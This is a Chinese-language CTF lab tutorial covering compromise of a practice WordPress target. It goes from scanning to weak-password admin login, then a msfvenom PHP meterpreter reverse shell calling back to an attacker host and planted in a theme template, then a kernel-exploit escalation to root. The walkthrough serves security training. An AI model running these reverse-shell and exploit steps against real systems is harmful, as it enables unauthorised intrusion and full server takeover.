










# CTF夺旗赛教程：P26：28.综合测试 🚩

在本节课中，我们将学习如何通过Web安全漏洞获取服务器权限，并最终提升至root权限，从而在CTF比赛中拿到flag值。课程将从信息探测开始，逐步深入到漏洞利用和权限提升。

## 概述

随着Web技术的快速发展，基于Web环境搭建的应用和平台越来越多。Web业务的迅速发展也引起了黑客的强烈关注，导致Web安全风险日益凸显。黑客利用网站操作系统的漏洞和Web中间件服务的漏洞，可以获取服务器的控制权限。轻则篡改网页内容，重则窃取重要数据，甚至在网页中植入恶意代码，如挖矿木马，危害网站访问者。

本节课的目标是通过Web入侵服务器，利用服务器漏洞获取权限。我们将使用Kali Linux作为攻击机，目标靶机IP地址为192.168.253.14。

## 信息探测

上一节我们介绍了课程目标，本节中我们来看看如何对目标服务器进行信息探测。无论是在渗透测试还是CTF比赛中，第一步都是信息收集，目的是获取靶机上的root权限或flag值。

首先，我们需要探测服务器的开放服务及其版本信息。这里我们使用Nmap工具。

以下是使用Nmap进行基础服务探测的命令：
```bash
nmap -sV 192.168.253.14
```
此命令将探测靶机开放的服务及版本信息。

除了基础扫描，我们还可以使用Nmap的更高级参数进行全方位探测。
```bash
nmap -T4 -A -v 192.168.253.14
```
参数说明：
*   `-T4`：设置扫描速度为最快。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出。

探测结束后，我们可以分析返回的结果，寻找可利用的信息。

## Web信息探测

除了Nmap，我们还可以使用专门针对Web服务的工具进行更深入的信息探测。

以下是两个常用的Web信息探测工具介绍。

首先，我们可以使用Nikto来探测Web服务中可能泄露的敏感信息或已知漏洞。
```bash
nikto -h http://192.168.253.14
```
如果Web服务运行在非80端口（例如8080），则需要在命令中指定端口：
```bash
nikto -h http://192.168.253.14:8080
```

其次，我们可以使用Dirb来探测Web服务的目录结构，寻找隐藏的目录或文件。
```bash
dirb http://192.168.253.14
```
同样，如果端口不是80，需要指定端口号。

## 漏洞挖掘与分析

探测完信息后，我们需要对结果进行分析，挖掘可利用的漏洞点。

本节中，我们将对Nmap和Nikto的扫描结果进行深入分析。例如，检查是否存在敏感页面（如配置文件`robots.txt`）、弱口令登录点，或者判断网站是否使用了已知的CMS（内容管理系统）。

在本例的扫描结果中，我们发现目标网站使用了WordPress CMS。对于已知的CMS，我们可以使用专门的工具进行漏洞扫描。

以下是使用WPScan枚举WordPress信息的命令：
```bash
wpscan --url http://192.168.253.14 --enumerate t,p,u
```
参数说明：
*   `--enumerate t`：枚举主题。
*   `--enumerate p`：枚举插件。
*   `--enumerate u`：枚举用户名。



扫描报告可能会显示存在的漏洞（如XSS、SQL注入）和枚举出的用户名。这为我们后续的渗透提供了方向。



在进行Web渗透时，需要注意以下几点：
*   检查登录页面是否存在SQL注入或弱口令。
*   查看扫描到的目录和页面源代码，寻找敏感信息。
*   确认系统是否为已知CMS或框架，并搜索公开的利用方式。
*   注意备份文件（如`.bak`， `.old`），其中可能包含配置文件、用户名和密码。
*   对关键代码进行审计，寻找未知的零日漏洞。

## 漏洞利用与WebShell获取

分析扫描结果后，我们尝试利用发现的漏洞。例如，我们尝试用枚举到的用户名`admin`和弱口令`admin`登录WordPress后台，并成功进入。

获得后台权限后，常见的下一步是上传一个WebShell，以便在服务器上执行命令并获取一个反向Shell连接回我们的攻击机。

这个过程分为三步：
1.  在攻击机上生成一个PHP的WebShell。
2.  在攻击机上启动监听，等待靶机连接。
3.  将WebShell上传到靶机并访问执行。

首先，我们使用`msfvenom`生成一个PHP反向Shell。
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
```
代码解释：
*   `-p php/meterpreter/reverse_tcp`：指定Payload为PHP的Meterpreter反向TCP连接。
*   `LHOST=192.168.253.12`：指定攻击机IP（监听地址）。
*   `LPORT=4444`：指定监听端口。
*   `-f raw`：输出格式为原始代码。
*   `> shell.php`：将生成的代码保存到`shell.php`文件。



然后，在攻击机的Metasploit中启动监听。
```msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
run
```



最后，将生成的`shell.php`代码内容上传到WordPress的模板文件（例如404页面）中，并通过浏览器访问该页面的URL。此时，攻击机的监听端会收到来自靶机的反向Shell连接。





## 权限提升





成功获取Shell后，我们发现当前权限是`www-data`，并非root权限。在CTF和渗透测试中，通常需要将权限提升至root。



在CTF比赛中，服务器上可能会有提示文件。在实际环境中，可能需要利用内核溢出漏洞或其他本地提权漏洞。

首先，我们需要获取系统的内核版本信息。在获得的Shell中执行：
```bash
uname -a
```
假设返回的信息包含`Linux ... 4.4.0 ...`，表明内核版本是4.4.0。

接着，我们可以使用`searchsploit`工具搜索针对该内核版本的公开漏洞利用代码。
```bash
searchsploit linux 4.4.0 local
```
在返回的结果中，我们选择一个本地提权漏洞（例如编号41458）。查看其代码：
```bash
searchsploit -x 41458
```
然后，将该漏洞利用代码复制到本地，编译成可执行程序。
```bash
# 假设代码文件为41458.c
gcc 41458.c -o shellroot
```
编译后生成`shellroot`文件。将其上传到靶机服务器，赋予执行权限并运行。
```bash
# 在靶机Shell中操作
chmod +x shellroot
./shellroot
```
执行成功后，当前Shell的权限就会提升为root。可以通过`id`或`whoami`命令验证。

对于CTF比赛，最后一步通常是切换到特定目录，读取`flag`文件的内容。

## 总结

本节课中我们一起学习了完整的Web渗透与权限提升流程：
1.  **信息收集**：使用Nmap、Nikto、Dirb、WPScan等工具探测目标服务和Web应用信息。
2.  **漏洞挖掘**：分析扫描结果，识别CMS、敏感文件、潜在弱口令和已知漏洞。
3.  **漏洞利用**：利用弱口令或已知漏洞获取Web后台权限，上传WebShell。
4.  **获取初始立足点**：通过WebShell获取反向Shell连接，建立与靶机的命令交互通道。
5.  **权限提升**：收集系统信息（如内核版本），搜索并利用本地提权漏洞，将权限从普通用户提升至root。



核心要点在于：面对目标时，首先判断其是否为已知系统以寻找现成利用方式；提权时，务必收集系统信息（如`uname -a`），利用内核漏洞获取最高权限。在CTF比赛中，始终牢记最终目标是获取root权限并找到flag。